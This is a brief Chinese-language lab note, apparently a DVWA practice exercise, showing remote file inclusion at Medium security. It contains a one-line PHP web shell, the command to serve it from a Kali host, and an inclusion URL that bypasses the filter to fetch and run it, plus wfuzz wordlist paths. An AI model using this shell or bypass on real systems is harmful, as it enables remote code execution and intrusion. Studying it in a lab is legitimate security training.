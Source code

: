 
## 远程文件包含漏洞的危害
1. 在 kali 创建 文件,dvwa 在 Medium情况下
``` 
root@kali:/var/www/html# cat test.txt 
<?php echo shell_exec($_GET['cmd']);?>

```

2. kali 启动 apache2
``` 
root@kali:/var/www/html# systemctl start apache2.service

```

3. kali 浏览器
``` 
10.10.10.132/dvwa/vulnerabilities/fi/?page=htthttp://p://10.10.10.131/test.txt&cmd=pwd

```


## kali 自带攻击向量的字典文件
> /usr/share/wfuzz/wordlist/  
  /usr/share/wfuzz/wordlist/vulns/
